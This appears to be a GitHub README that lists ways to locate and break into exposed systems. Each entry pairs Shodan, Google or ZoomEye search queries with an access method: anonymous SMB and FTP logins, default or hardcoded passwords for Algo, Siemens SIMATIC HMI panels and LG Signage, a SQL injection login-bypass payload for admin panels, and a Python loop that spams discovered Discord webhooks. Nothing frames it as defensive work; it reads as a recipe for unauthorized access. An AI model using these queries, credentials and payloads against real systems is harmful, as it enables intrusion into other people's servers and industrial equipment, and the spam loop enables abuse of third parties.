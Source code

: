 # SMB server misconfiguration

### installing smbclient
Debian: `apt install samba`

Arch: `pacman -S smbclient`

### login in to misconfigurated server
`smbclient -N \\\\{address}\\Users`

### Shodan query
[`port:445 "Authentication: disabled" "Users"`](https://www.shodan.io/search?query=port%3A445+%22Authentication%3A+disabled%22+%22Users%22)

# Algo hardcoded password

### Login
Default password: _`algo`_

### Shodan query
[`http.favicon.hash:-1024590169`](https://www.shodan.io/search?query=http.favicon.hash%3A-1024590169)

# SIMATIC HMI_Panel default credentials

### Login
Default username: _`Administrator`_

Default password: _`100`_

### Google dork
[`intitle:”Miniweb Start Page”`](https://www.google.com/search?q=intitle%3A%E2%80%9DMiniweb+Start+Page%E2%80%9D)

# Admin-login panels vulnerable to SQLi
Payload: _`1'or'1'=1'`_

### Google dork
[`intitle:"Admin login" inurl:/admin/index.php`](https://www.google.com/search?q=intitle%3A%22Admin+login%22+inurl%3A%2Fadmin%2Findex.php)

# Find exposed discord webhooks

Simplest way to spam into a webhook in python:
```py
while True: __import__("requests").post("<webhook>", data={"content":"@here hey"})
```

### Zoomeye dork
[`"https://discord.com/api/webhooks/"`](https://www.zoomeye.org/searchResult?q=%22https%5C%3A%2F%2Fdiscord.com%2Fapi%2Fwebhooks%2F%22)

#### But... Can i automate this?
The answer is obviously yes, i made [this](https://github.com/komodoooo/discord-stuff/blob/main/src/zw.py) script.

# FTP servers with anonymous login allowed 
Username: _`anonymous`_

Password: _`guest`_

### Shodan query
[`port:21 "Login successful" "FTP server ready"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22+%22FTP+server+ready%22)

[`port:21 "Login successful"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22)
## Find exposed ftp servers on google
### Google dork
[`intitle:"index of" inurl:ftp`](https://www.google.com/search?q=intitle%3A%22index+of%22+inurl%3Aftp)

# LG Signage default credentials
### Login
Default password: _`00000000`_
### Zoomeye dork
[`iconhash:79487298 && title:"LG Signage"`](https://www.zoomeye.org/searchResult?q=iconhash%3A79487298%20title%3A%22LG%20Signage%22&t=all)
